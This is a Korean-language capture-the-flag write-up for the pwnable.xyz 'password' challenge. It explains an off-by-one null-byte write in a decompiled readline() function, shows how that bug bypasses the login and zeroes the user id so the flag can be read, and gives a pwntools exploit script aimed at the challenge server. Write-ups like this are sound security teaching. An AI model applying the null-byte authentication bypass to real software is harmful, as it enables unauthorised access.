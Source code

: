 ```yaml
---
title: "[pwnable.xyz]password"
date: 2020-2-4
ctf: Pwnable.xyz
layout: post
---
```


보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

여기서 취약점 터진다. 널바이트를 보내게되면 메모리주소 -1 위치를 0으로 셋팅해줄 수 있다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(a1);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

우선 login() 함수에서 readline()할 때 널로 보내게 되면 bypass 할 수 있다. 그러면 creds가 1로 셋팅되고 2번 메뉴를 사용할 수 있게 된다. 거기서 memset으로 flag를 다 널바이트로 바꿔준다. 그리고 여기서도 readline()으로 flag에 입력을 받는다. 근데 flag바로 뒤에 id가 존재해서 id를 0으로 덮어줄 수 있다. id를 0으로 만들었으니까 3번 메뉴로 flag를 읽어올 수 있다. 하지만 memset 해줬으니까 다시 flag를 읽어오는 4번 메뉴를 사용해서 flag 읽어오고 id는 0이니까 3번 메뉴로 flag 출력해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30026)
win = e.symbols['win']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(password):
	sla('>','1')
	sa(':',password)

def change(password):
	sla('>','2')
	sa(': \n',password)

def printf():
	sla('>','3')

def logout():
	sla('>','4')

sa(':','1234') # User ID:
login('\x00')
change('\x00')
logout()
printf()

p.interactive()
```


